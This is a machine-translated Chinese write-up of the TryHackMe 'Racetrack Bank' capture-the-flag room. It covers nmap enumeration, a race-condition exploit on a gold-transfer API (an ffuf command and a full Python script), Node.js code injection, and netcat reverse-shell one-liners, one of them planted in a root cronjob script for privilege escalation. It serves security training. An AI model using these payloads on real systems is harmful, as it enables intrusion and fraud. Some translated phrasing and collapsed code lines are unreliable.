








# TryHackMe:赛马场银行报道

> 原文：<https://infosecwriteups.com/tryhackme-racetrack-bank-writeup-879b6534b00a?source=collection_archive---------1----------------------->

本文介绍了我在 TryHackMe 平台上创建的**赛马场银行**夺旗(CTF) 挑战赛、免费房间 *deltatemporal* 的方法。我在下面的参考资料中提供了 TryHackMe 平台的链接，供有兴趣尝试这款 CTF 的人使用。


# 放弃

我喜欢在一篇文章之前添加一个简短的免责声明，以鼓励人们在阅读本文之前尝试一下这个房间，因为在这篇文章中显然会有**剧透****。我相信，如果你先自己尝试，然后在遇到困难或需要提示时再来写这篇文章，你会更喜欢 CTF。因此，没有任何进一步的拖延，让我们开始吧！**

# **挑战简介**

**以下描述由房间作者提供:**

> **侵入机器并捕获用户和根标志！很难，所以祝你好运。**

# **列举**

**好的枚举是解决这个挑战的关键！我开始用 **NMAP** 扫描目标机器，寻找任何打开的端口。**

```
nmap -sV -sC -v -Pn -oN nmap_report 10.10.252.171
```

**NMAP 命令可以细分如下:**

*   ****-Pn** :禁用主机发现。**
*   ****-sV** :对服务进行版本检测。**
*   ****-sC** :使用 NMAP 提供的默认脚本执行脚本扫描。**
*   ****-v** :提供关于 NMAP 扫描的详细信息。**
*   ****-oN** :将扫描结果输出到文件。**

**只有两个端口打开，端口 22 和端口 80。**

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 51:91:53:a5:af:1a:5a:78:67:62:ae:d6:37:a0:8e:33 (RSA)
|   256 c1:70:72:cc:82:c3:f3:3e:5e:0a:6a:05:4e:f0:4c:3c (ECDSA)
|_  256 a2:ea:53:7c:e1:d7:60:bc:d3:92:08:a9:9d:20:6b:7d (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Racetrack Bank
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**进一步的扫描没有发现任何其他开放的端口。**

# **Web 枚举**

**我决定查看端口 80 上托管的是什么网站，并找到了网站**赛马场银行**的登录页面。**

****

**我用用户名鲍勃创建了一个账户，并登录了网站。在仪表板页面上，我看到以下消息:**

> **欢迎来到赛马场银行！为了让你开始，我们给了你 1 枚金币(我们真慷慨！).明智地使用它。**

**通过查看仪表板的页面源代码，我可以看到有一个链接指向一个名为*premiumfeatures.html*的页面，但是我无法查看该页面的内容，如下所示。**

```
<li class="nav-item" id="premiumlink" style="display: none">                            <a class="nav-link" href="[/premiumfeatures.html](http://10.10.191.233/premiumfeatures.html)">Premium Features</a>                        
</li>
```

****

**然而，该网站确实允许您花费 **10，000** 黄金购买高级功能。**

****

**网站上最后一个有趣的活动是将黄金转移给另一个用户的功能，正如登录页面上的开篇注释所说。**

> **欢迎来到赛马场银行，这家银行(即将)让您**以极快的速度转账**！**

****

**该网站提供的主要功能的最终列表包括:**

1.  **创建一个帐户**
2.  **登录页面**
3.  **仪表板/主页**
4.  **购买页面**
5.  **赠送黄金**

**我决定试着测试一下我是否能把黄金寄到我用用户名 *John* 创建的另一个账户。我以用户*鲍勃*的身份登录，并将我的 1 枚金币发给了*约翰*。**

****

**然后，我注销了用户 *Bob 的*账户，并以用户 *John* 的身份登录。我可以看到这奏效了，约翰现在有了两枚金牌。**

****

**我可以在技术上创建数千个帐户，并转移他们的 1 金，但这将需要太长的时间，显然不是获得优质功能的方式。**

# **最初的立足点**

**在这一点上，我开始使用不同的工具和技术来找出我可以在哪里获得一个初步的立足点。这可能是这个挑战中最难的部分，我花了一段时间才弄明白。我的第一个线索是在使用 **BurpSuite** 拦截发送到目标服务器的流量时，在 HTTP 响应头中找到的。**

```
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Sat, 06 Feb 2021 12:03:40 GMT
Content-Type: text/html; charset=utf-8
Connection: close
X-Powered-By: Express  #### Interesting
Cache-Control: no-store
Content-Length: 3578
```

****X-Powered-By** 割台实际上不做任何事情。这只是意味着 express 正在被使用，有点像由 php 提供的 **X-Powered 头。Express.js 在节点应用程序中大量用于处理路由 URL。这可以被认为是信息泄露，可能会泄露可以洞察 web 应用程序攻击媒介的细节。因此，应该禁用标题。****

**这个线索本身在这一点上并没有太大的意义，但它值得记下来以备后用。在花了更多的时间寻找最初的立足点后，我决定看看第一个提示。**

> **银行的名字暗示了什么？**

**单独搜索 **racetrack bank** 并没有真正的帮助，但是结合这个提示和网站正在使用 **Express Node.js 框架**的知识，我决定寻找任何 Node.js 包，找到了一个与 **racetrack 完全匹配的包。****

****

**包装的描述如下:**

> **Racetrack 是一种确保所有异步调用都完成的方法，如果有任何一个调用没有完成，它还能找出问题出在哪里。**
> 
> **对于那些有一堆最后一个参数都是函数的方法的类来说，这样做是很容易的。否则，你必须在每个函数前加上一个跟踪钩子。**
> 
> **它仍然很原始。**

## **什么是竞争条件？**

**阅读包的描述，看起来竞争条件攻击是可能的，因为包使用异步调用，但是什么是竞争条件呢？**

**竞争条件是一种不希望出现的情况，当设备或系统试图同时执行两个或多个操作时，但由于设备或系统的性质，这些操作必须以正确的顺序正确完成。我在下面提供了一些例子来帮助更好地理解竞态条件。**

****现实世界的例子**:**

> **竞争条件的一个简单例子是电灯开关。在一些家庭中，有多个灯开关连接到一个普通的顶灯上。当使用这些类型的电路时，开关位置变得无关紧要。如果灯亮着，将任一开关从当前位置移开，灯就会熄灭。类似地，如果灯关闭，那么从其当前位置移动任一开关将打开灯。考虑到这一点，想象一下如果两个人试图同时用两个不同的开关打开灯会发生什么。一个指令可能会取消另一个指令，或者两个动作可能会使断路器跳闸。**

****计算机科学举例**:**

> **竞争条件通常与计算机科学联系在一起。在计算机内存或存储器中，如果几乎在同一时刻收到读写大量数据的命令，并且机器试图在仍在读取旧数据的同时覆盖旧数据的一部分或全部，则可能出现竞争情况。结果可能是以下一个或多个:计算机崩溃、“非法操作”、程序的通知和关闭、读取旧数据的错误或写入新数据的错误。如果指令的处理顺序不正确，也会出现争用情况。**

****安全漏洞**:**

> **当两个或多个线程可以访问共享数据，并且它们试图同时更改它时，就会发生争用情况。因为线程调度算法可以随时在线程之间交换，所以您不知道线程尝试访问共享数据的顺序。因此，数据变化的结果取决于线程调度算法，即两个线程都“竞相”访问/改变数据。**

## **竞争条件利用**

**既然我们有了潜在的漏洞，下一步就是找出在哪里使用它以及如何使用它。我们知道，要使用高级功能，需要 **10，000** 枚金币。我还知道，该网站允许一个用户给另一个用户黄金，这可能是一个种族条件可以被发现和利用。**

**理论上，通过同时发送多个 POST 请求，而不是一次发送一个 POST 请求，可以通过竞争条件利用这种功能。这可以通过使用`ffuf`来利用。简单地创建一个长列表，在每个新行上包含数字`1`，并将其传递给`ffuf`，后者将使用它来模糊`amount`参数。这是可行的，因为`ffuf`将发送多个异步 POST 请求，而不等待响应。在下面的例子中，我正在进行一个 POST 请求，从 *Bob* 向 *John* 多次发送 **1** gold。**

```
# Use the cookie value of the user who is sending the gold (i.e. Bob)# Provide the username of the user receiving the gold (i.e. John)ffuf -c -u [http://10.10.191.233/api/givegold](http://10.10.191.233/api/givegold) -X POST -w list.txt -H "Content-Type: application/x-www-form-urlencoded" -b "connect.sid=s%3A7CIq41Z-A_cGJJU8vStveftvTRgIrqLO.bbmGM9sKC49oAQtYUrgHSS83qC8cuu4EYw6YjDLKN7Y" -d "user=John&amount=FUZZ"
```

**执行该命令后，我登录到用户 John 的帐户，我可以看到收到的黄金数量远远大于发送的指定数量，这证实了竞争条件漏洞的存在。**

****

**我可以继续使用这种方法并增加发送的数量，但是因为我很懒，所以我决定创建一个简单的 python 脚本来自动完成这个过程😄。**

**这个脚本用于将黄金从一个用户的帐户发送到赛道银行网站上的另一个用户的帐户。它利用了竞争条件漏洞，从而不是一次发送一个 POST 请求并等待响应(即同步)，而是同时发送多个 POST 请求(异步)。在对第一个请求的响应被发送回之前，这些请求都被单独处理，导致多个请求被处理，黄金被发送给用户。**

> ****脚本使用说明:****
> 
> **1.确保在网站上创建了两个独立的帐户，并且在下面的脚本中指定了凭据。**
> 
> **2.确保两个用户的帐户中至少有一枚金牌。**
> 
> **注意:确保 IP 地址设置正确。此外，每次用户登录或退出时，cookie 都会发生变化，这由下面的脚本处理。**

**这个脚本可能需要几分钟的时间来运行，但最终会给我们提供购买高级功能所需的黄金。**

```
#!/usr/bin/env pythonimport grequests
import requests
from bs4 import BeautifulSoup# Websites IP Address for your room.
ip_address = "10.10.133.7"# Credentials for First Account created.
user_1 = "John"
pass_1 = "password"# Credentials for Second Account created.
user_2 = "Bob"
pass_2 = "password"# Retrieve users cookie and current amount of gold.
def userGoldAndCookie(username, password):
 # Details to be posted to the login form.
 payload = {
 'username': username,
 'password': password
 }
    # Retrieve Gold Amount and Cookie for the specified user.
 with requests.Session() as s:
  # Login as the specified user.
  p = s.post('[http://{}/api/login'.format(ip_address),](http://{}/api/login'.format(ip_address),) data=payload)
  # Get the amount of gold for the specified user.
  gold_amount = 0
  soup = BeautifulSoup(p.text, "html.parser")
  for tag in soup.find_all('a'):
   if "Gold:" in tag.text:
    gold_amount = int(str(tag.text).split(":", 1)[1].strip())
    print("Current Gold Amount for User {}: {}".format(username, gold_amount))# Get the new cookie generated for the user.
  cookie_dict = s.cookies.get_dict()
  return cookie_dict['connect.sid'], gold_amount# Function is used to send gold to a user.
def sendGold(user, cookie, amount):
 print("Sending {} gold to user {}".format(amount, user))
 # Websites URL used to give gold to another user.
 url = '[http://{}/api/givegold'.format(ip_address)](http://{}/api/givegold'.format(ip_address))# Network POST Request Headers
 headers = {
 "Host" : "{}".format(ip_address),
 "Referer" : "[http://{}/giving.html](http://{}/giving.html)".format(ip_address),
 "Content-Type" : "application/x-www-form-urlencoded",
 "Connection" : "close",
 "Cookie" : "connect.sid={}".format(cookie),
 "Upgrade-Insecure-Requests" : "1"
 }

    # The cookie of the user sending the gold
 cookies = {
 "connect.sid" : cookie
 }# N.B. Need to use data instead of params for a POST Request
 # This will send multiple POST requests, giving John 1000 gold in each POST request.
 data = "user={}&amount={}".format(user,amount)# Send asynchronous post requests
 rs = (grequests.post(url, data=data, cookies=cookies, headers=headers) for i in range(0,100))
 requests = grequests.map(rs)
 print("{} gold has been sent to user {}!".format(amount, user))gold_needed = 0
counter = 1while gold_needed < 10000:
 if counter % 2 == 0:
  print("{} turn to send gold...".format(user_1))
  values = userGoldAndCookie(user_1, pass_1)
  gold_needed = values[1]
  sendGold(user_2, values[0], values[1])
  counter += 1
 else:
  print("{} turn to send gold...".format(user_2))
  values = userGoldAndCookie(user_2, pass_2)
  gold_needed = values[1]
  sendGold(user_1, values[0], values[1])
  counter += 1
```

**运行这个脚本后，我终于获得了足够的金币来购买高级功能。**

```
John turn to send gold...
Current Gold Amount for User John: 16000
Sending 16000 gold to user Bob
16000 gold has been sent to user Bob!
Success!! We have all the gold we need ;)
```

## **Node.js 远程代码执行(RCE)**

**购买高级功能后，我可以访问一个显示以下消息的新页面。**

> **这是我们惊人的高级功能:一个计算器！这么有用！**
> 
> **输入计算，例如 1+1，它会告诉你答案！**
> 
> **计算**

**因为我已经知道 Node.js 正在被使用，所以我尝试使用 Node.js 编程语言来执行 RCE:**

```
process.cwd()
```

**这是可行的，我们可以在服务器上执行代码。**

****

**我使用下面的 Node.js 代码创建了一个反向 shell:**

```
require("child_process").exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP_ADDRESS 4444 >/tmp/f')
```

**一旦我获得了一个反向外壳，我就可以得到用户的标志😃！**

****

# **根权限提升**

**我开始寻找将我的权限提升到 root 的方法。在枚举机器时，我发现有一个 cronjob 正在使用工具 **pspy32** 运行清理脚本。**

****

**我创建了一个新的`cleanupscript.sh` bash 脚本，它创建了一个反向 shell:**

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.36.156 1234 >/tmp/f
```

**使用这个具有 root 权限的反向 shell，我现在可以获得 root 标志了😄！**

****

# **结束语**

**找到最初的立足点是挑战中最困难的部分，我花了很长时间才找到。然而，一旦我理解了什么是利用，剩下的挑战就变得相对简单了。我也非常喜欢学习更多关于竞争条件以及如何利用它们的知识。谢谢你阅读到最后，希望你学到了新的东西！**

# **参考**

**[](https://tryhackme.com/) [## 网络安全培训

### TryHackMe 是一个免费的学习网络安全的在线平台，使用动手练习和实验室，通过您的…

tryhackme.com](https://tryhackme.com/) [](https://www.npmjs.com/package/racetrack) [## 跑道

### Racetrack 是一种确保所有异步调用都已完成的方法，如果有问题的话，还可以找出问题出在哪里…

www.npmjs.com](https://www.npmjs.com/package/racetrack) [](https://medium.com/@sebnemK/node-js-rce-and-a-simple-reverse-shell-ctf-1b2de51c1a44) [## Node.js RCE 和一个简单的反向 shell -CTF

### 这个 CTF 风格的挑战的目标是获得对 web 服务器的完全访问权，分别窃取配置文件…

medium.com](https://medium.com/@sebnemK/node-js-rce-and-a-simple-reverse-shell-ctf-1b2de51c1a44)**